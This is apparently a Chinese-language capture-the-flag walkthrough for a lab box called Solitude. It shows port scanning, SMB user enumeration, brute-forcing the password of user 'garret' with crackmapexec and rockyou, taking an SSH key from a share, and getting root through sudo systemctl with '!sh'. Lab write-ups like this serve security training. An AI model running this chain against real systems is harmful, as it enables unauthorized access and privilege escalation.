




## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Solitude  
❯ nmap 192.168.56.115 -sV -A -p- 

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2b:c7:6c:06:c7:80:41:bc:cb:dc:fe:d6:e8:85:db:b0 (RSA)
|   256 61:d1:67:f9:8f:99:62:9b:d4:9a:70:19:ff:78:bd:77 (ECDSA)
|_  256 2b:6e:53:ab:ac:68:ca:78:a7:d6:2f:34:65:e8:5d:17 (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 08:00:27:22:A4:A8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-11T20:26:05
|_  start_date: N/A
|_nbstat: NetBIOS name: SOLITUDE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: 7h59m57s
```

## Enum4linux

```
[root@kali] /home/kali/Solitude  
❯ enum4linux -a 192.168.56.115

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                          
                                                                                                                                     
S-1-22-1-1000 Unix User\garret (Local User)                                                                                          
```

找到一个用户名：**garret**

## CrackPasswd

尝试对其进行密码爆破

```
[root@kali] /home/kali/Solitude  
❯ crackmapexec smb 192.168.56.115 -u 'garret' -p /usr/share/wordlists/rockyou.txt    

SMB         192.168.56.115  445    SOLITUDE         [+] SOLITUDE\garret:inuyasha 
```

得到密码为：**inuyasha**

## SMB

使用**smbmap**进行查看权限



查看**Shared**目录，是**ssh**密钥，将**id\_rsa**下载下来。



```
chmod 600 id_rsa
```



## Root

查看特殊命令

```
garret@solitude:~$ sudo -l
Matching Defaults entries for garret on solitude:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User garret may run the following commands on solitude:
    (ALL) NOPASSWD: /usr/bin/systemctl
```

- [systemctl | GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/)

可以使用其中的第**C**条

```
sudo systemctl
!sh
```



## Summary

`User`：通过**enum4linux**找到用户**garret**，使用**crackmapexec**进行密码爆破，在**smb**中获取到登陆密钥

`Root`：**systemctl**权限不当，直接提权。
